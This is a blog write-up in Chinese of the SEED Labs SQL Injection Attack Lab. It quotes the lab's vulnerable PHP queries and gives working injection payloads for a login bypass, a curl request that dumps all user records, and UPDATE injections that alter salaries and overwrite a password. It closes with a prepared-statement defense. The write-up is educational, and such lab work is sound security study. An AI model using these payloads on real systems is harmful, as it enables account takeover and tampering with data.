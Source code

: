 ```yaml
---
layout: post
title:  "SQL injection"
date:   2020-11-01 00:00:00 +0800
categories: 实验
tags: seedlab sql
comments: 1
mathjax: true
copyrights: 原创
---
```


本文为 [SEED Labs 2.0 - SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/) 的实验记录。

## 实验原理

SQL注入攻击通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，它目前是黑客对数据库进行攻击的最常用手段之一。

## Task 1: Get Familiar with SQL Statements

启动 docker

```shell
dcbuild
dcup
```

然后进入 mysql 程序

```shell
dockps
docksh **
mysql -u root -p dees
```

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.

```mysql
use sqllab_users;
show tables;
desc credential;
select * from credential where Name='Alice'
```

<img src="/assets/post/images/sql1.png" alt="sql1" style="zoom:50%;" />

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage

打开 [seed-server.com](http://www.seed-server.com/)

观察 unsafe home.php，看到里面有如下判断

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

我们只需要把判断 Password 的部分屏蔽即可

```plaintext
admin';#
```

<img src="/assets/post/images/sql2.png" alt="sql2" style="zoom:50%;" />

### Task 2.2: SQL Injection Attack from command line

转换一下 url 编码即可

```shell
curl 'www.seed-server.com/unsafe_home.php?username=%27%3b%23'
```

得到

<img src="/assets/post/images/sql3.png" alt="sql3" style="zoom:50%;" />

看到已经显示了所有用户信息

### Task 2.3: Append a new SQL statement

注入

```plain text
Alice'; update credential set name=A where ID=1;#
```

可以看到注入不成功

<img src="/assets/post/images/sql4.png" alt="sql4" style="zoom:67%;" />

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

进入 Alice 修改个人资料的页面

观察 unsafe edit backend.php，看到有如下判断

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

注入

```plaintext
',salary='30000' where ID=1;#
```

<img src="/assets/post/images/sql5.png" alt="sql5" style="zoom: 50%;" />

### Task 3.2: Modify other people’s alary

这个和上面的几乎一模一样，比如我们把 Boby 的薪水改成 114514

```plaintext
',salary='114514' where ID=2;#
```

<img src="/assets/post/images/sql6.png" alt="sql6" style="zoom:50%;" />

看到已经改掉了

<img src="/assets/post/images/sql7.png" alt="sql7" style="zoom:50%;" />

### Task 3.3: Modify other people’s password

查看代码，看到密码采用的是 sha1，我们随便找个在线转换网站转换一下就好了。

<img src="/assets/post/images/sql8.png" alt="sql8" style="zoom: 67%;" />

然后注入

```plaintext
',Password='1f82c942befda29b6ed487a51da199f78fce7f05' where ID=1;#
```

<img src="/assets/post/images/sql9.png" alt="sql9" style="zoom:50%;" />

然后现在可以用密码 `888888` 成功登录 Alice 账号。

## Task 4: Countermeasure — Prepared Statement

登录 [seed-server.com/defense](http://www.seed-server.com/defense/)

这里我们需要将参数与查询分离。修改 unsafe.php，做如下改动

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

<img src="/assets/post/images/sql10.png" alt="sql10" style="zoom:50%;" />

可以看到，攻击失败了

<img src="/assets/post/images/sql11.png" alt="sql11" style="zoom:50%;" />

## 实验总结

实验属于最简单的 SQL injection。主要的收获在于最后一个 Task，以前只知道怎么注入，很少研究过怎么防御。
